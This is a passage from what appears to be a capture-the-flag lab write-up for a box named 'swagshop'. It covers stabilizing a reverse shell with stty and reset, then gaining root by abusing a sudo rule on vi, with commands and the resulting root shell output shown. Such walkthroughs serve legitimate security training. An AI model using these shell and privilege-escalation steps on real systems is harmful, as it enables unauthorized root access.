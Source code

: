 ```console
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
4. `stty raw -echo`
5. `fg` to return to the reverse shell.
6. `reset`, here it will prompt for terminal type, type in the one at `step 2.`.
7. Tell the reverse shell our terminal size.
```console
www-data@swagshop:/var/www/html$ stty rows 42 columns 189
```

Now we can use `vi`.

Remember, we can only use `vi` as `root` in the `/var/www/html` directory.
```console
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/test
```

In vim editor:
1. Press `escape` button and enter `:set shell=/bin/sh`.
2. Press `escape` button and enter `:shell`

```console
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/test

[No write since last change]
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

### We are now `root`!

The ***root flag*** is at `/root/root.txt`.

### Done!
